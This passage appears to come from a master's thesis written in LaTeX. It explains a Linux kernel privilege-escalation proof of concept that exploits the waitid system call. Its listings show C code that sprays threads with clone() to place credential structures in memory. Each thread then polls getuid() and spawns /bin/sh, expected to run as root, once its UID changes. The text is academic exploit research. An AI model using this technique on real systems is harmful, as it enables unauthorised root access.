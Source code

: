 \documentclass{masterthesis}
\begin{document}
In our case, it is necessary to identify a range of addresses where the structures are saved.
In order to find it, we created a maximum number of processes for the system and then we read the addresses of the structures with the program ~\ref{lst:first_step}.

We can run a program that creates processes a few times and see how addresses are changed, remembering to shut down the VM completely every time.
To create enough processes we can use the clone like the following:
\begin{lstlisting}[caption={Create processes},label={lst:spray}] 
stack=malloc(STACK_SIZE)+STACK_SIZE;
for(x=0;x<MAX_THREADS;x++){
  stackTop = malloc(STACK_SIZE) + STACK_SIZE;
  if (!stackTop){
    perror("[-] Malloc");
    return -1;
  }
  pid = clone(spray_thread, stackTop, CLONE_VM | CLONE_FS|CLONE_FILES|CLONE_SYSVSEM | SIGCHLD, NULL);
  if (pid == -1){
    perror("\n\nCLONE");
    return -1;
  }
  printf("[0] Process created: %d\r", x);
}
\end{lstlisting}

\subsection{Proof of concept}
\label{subsect:poc}

PoC is not very complex: it just create many threads and start overwriting at an arbitrary address. Our threads will only have to ``check'' their UID and do ``something'' in case it changes.

Initially we have to create processes with the program ~\ref{lst:spray} which all execute the \texttt{spray_thread} function.
\begin{lstlisting}
int one_win;

// Sprayed thread
int spray_thread(void *arg){
  int uid;
  int previous_one = getuid();
  // Loop over syscall getUID
  while(1){
    uid = getuid();
    printf("UID: %d\n",uid);
    // If returned UID is different from the previous one, then we have hit a struct cred area
    if (uid != previous_one){
      printf("Previous one %d\n" , previous_one);
      printf("WIN!! with %d", uid);
      // Kill other treads in order to stabilize the system
      one_win = 1;
      // Simply spawn a shell
      system("/bin/sh");
    }
    if(one_win == 1)
      return 1;
  }
  return 0;
}
\end{lstlisting}
This function checks that the UID of the process has not changed. In case it has changed it means that we have overwritten the structure with the system call \texttt{waitid}, then call a shell. In this scenario, this shell should be called with root privileges.
\end{document}
